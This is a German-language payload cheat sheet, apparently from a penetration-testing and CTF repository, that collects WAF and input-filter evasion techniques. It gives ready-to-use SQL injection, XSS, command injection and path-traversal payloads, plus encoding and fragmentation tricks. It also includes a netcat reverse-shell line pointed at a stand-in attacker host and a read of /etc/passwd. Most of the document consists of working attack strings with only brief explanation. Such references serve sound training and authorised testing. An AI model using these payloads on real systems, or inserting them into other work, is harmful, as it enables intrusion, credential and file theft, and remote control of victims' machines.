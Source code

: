 # 🎯 Payload Crafting Tips

**Ziel dieser Datei:**  
Diese Datei bietet eine kompakte Übersicht über Techniken zur Erstellung und Modifikation von Payloads – speziell im Hinblick auf die Umgehung von Web Application Firewalls (WAF), Filtern und anderen sicherheitsrelevanten Eingabekontrollen. Sie richtet sich vor allem an Penetration Tester, CTF-Spieler und Red Team-Mitglieder, die mit komplexen Eingabefiltern konfrontiert sind.

> ⚠️ **Disclaimer:** Diese Inhalte dienen ausschließlich zu Schulungs- und Testzwecken in autorisierten Umgebungen. Die Anwendung in produktiven oder fremden Systemen ohne ausdrückliche Genehmigung ist illegal.

---

## 🔧 Typische Encoding-Techniken

### 1. **URL-Encoding**
Wird oft verwendet, um Sonderzeichen zu maskieren.

| Zeichen | Encoding |
|--------|----------|
| `space` | `%20` oder `+` |
| `'`     | `%27` |
| `"`     | `%22` |
| `<`     | `%3C` |
| `>`     | `%3E` |
| `&`     | `%26` |
| `=`     | `%3D` |

> Beispiel:  
`<script>alert(1)</script>` → `%3Cscript%3Ealert(1)%3C/script%3E`

---

### 2. **Base64-Encoding**
Nützlich bei Befehlseinschleusungen (z. B. in RCEs, SQLi).

Beispiel in PHP:
```php
echo base64_decode('ZWNobyAnSGFja2VkIQ==');

→ Ausgabe: echo 'Hacked!'
```

---

## 3. Hex-Encoding / Char-Bypass
Alternative Darstellung für Payloads.

```sql
SELECT CHAR(65,66,67); -- ergibt "ABC"
```

Für XSS:

```html
<script>alert(1)</script>
```
Oder
```html
<svg /onload=String.fromCharCode(97,108,101,114,116)(1)>
```

---

## 🥷 Evasion-Techniken bei WAF / Inputfilter
### 🪤 Zeichen-Splitting / Padding
```html
<scr<script>ipt>
```
```bash
/bin/ba$IFS$IFSsh
```

| Technik                    | Beispiel              |
| -------------------------- | --------------------- |
| **Splitting**              | `<scr<script>ipt>`    |
| **Whitespace Tricks**      | `/bin/ba$IFS$IFSsh`   |
| **Keyword Fragmentierung** | `UNION/**/SELECT`     |
| **Comments**               | `ec/*x*/ho test`      |
| **Case Switching**         | `SeLeCt * FrOm users` |

---

## 🔀 Keywords fragmentieren
```sql
UNION/**/SELECT
```
```php
ec/*comment*/ho "test";
```

---

## ⏳ Zeitbasierte Payloads (blind testing)
Nützlich bei blind RCE oder SQLi:

```sql
' OR IF(1=1,SLEEP(5),0) --
```
```bash
ping -c 5 127.0.0.1
```

---

## 🧪 Beispiele nach Angriffsart
### 📚 SQL Injection
- ' OR 1=1 --
- `admin'/**/OR/**/1=1--+`
- UNION SELECT NULL,NULL,NULL--
- CONCAT(CHAR(117,115,101,114),CHAR(112,119))

### 🐚 Remote Code Execution (RCE)
```bash
127.0.0.1|echo hacked
127.0.0.1;nc -e /bin/bash attacker.com 4444
127.0.0.1&&sleep 5
```

### 🖼️ Cross-Site Scripting (XSS)

```html
<img src=x onerror=alert(1)>
<script>alert(1)</script>
<svg/onload=alert(document.domain)>
```

### 📂 Directory Traversal / LFI

```bash
../../../../etc/passwd
....//....//....//etc/passwd
php://filter/convert.base64-encode/resource=index.php
```


---

## 📌 Hinweise
- Unterschiedliche Filter verlangen unterschiedliche Bypässe. Teste iterativ.
- In CTFs werden häufig Custom-Filter eingebaut – Payload-Crafting ist oft die Lösung.
- Nutze Burp Suite's Repeater oder Tools wie `wfuzz`, `ffuf`, `sqlmap` für Automatisierung.
- Viele WAFs prüfen nur Signaturen -> ungewöhnliche Kodierungen oder Fragmentierungen helfen oft.
---

## ⚠️ Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---

## 🧰 Nützliche Tools
- [🔍 HackBar (Burp Extension)](https://portswigger.net/bappstore/93c19861f4df4e60bd9d4568cdd97ed6)
- [🧪 PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [⚡ SecLists (Payload Collections)](https://github.com/danielmiessler/SecLists?utm_source=chatgpt.com)
- [🔎 FuzzDB (Web Fuzzing Payloads)](https://github.com/fuzzdb-project/fuzzdb?utm_source=chatgpt.com)
